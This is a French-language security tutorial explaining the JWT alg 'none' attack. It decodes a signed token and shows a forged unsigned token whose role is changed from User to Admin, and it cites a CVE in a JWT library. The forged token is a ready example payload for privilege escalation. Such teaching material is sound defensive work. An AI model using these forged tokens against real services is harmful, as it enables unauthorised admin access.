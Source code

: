 # JWS - Alg "None" Attack

Cette attaque consiste à faire passer un jeton signé pour un jeton non signé afin de pouvoir en modifier son contenu. Par exemple, voici un jeton légitime signé reçu par l'attaquant :

```text
eyJhbGciOiJSUzI1NiIsICJ0eXAiOiJKV1QifQ.eyJuYW1lIjoiU2hhcnBmb3JjZSIsInJvbGUiOiJVc2VyIn0.qo2Pr1Fo5c_HeItw85G8Tu8qWdQeIiB-HfPaWs-s2Wk
```

Son entête est le suivant \(après décodage Base64URL\) :

`{  
  "alg":"RS256",  
  "typ":"JWT"  
}`

Ainsi que la payload :

`{  
  "name":"Sharpforce",  
  "role":"User"  
}`

Ce jeton peut être modifié afin, par exemple, de s'octroyer les droits administrateur. Pour cela il suffit de modifier la payload comme ceci :

`{  
  "name":"Sharpforce",  
  "role":"Admin"  
}`

Le problème est que le service consommateur n'acceptera jamais ce jeton, car la signature n'est pas valide. Alors l'attaquant va simplement indiquer que le jeton n'est pas signé et supprimer la signature :

`{  
  "alg":"none",  
  "typ":"JWT"  
}`

`{  
  "name":"Sharpforce",  
  "role":"Admin"  
}`

Une fois encodé le jeton falsifié qui sera envoyé au service consommateur sera le suivant :

```text
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJuYW1lIjoiU2hhcnBmb3JjZSIsInJvbGUiOiJBZG1pbiJ9.
```

Le jeton pourra ainsi être considéré comme légitime et donc accepté par le service.

Cette attaque se retrouve par exemple dans la librairie `prime-jwt` dans les version &lt;= 1.30. La CVE correspondante est détaillée ici :

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2018-1000531" %}



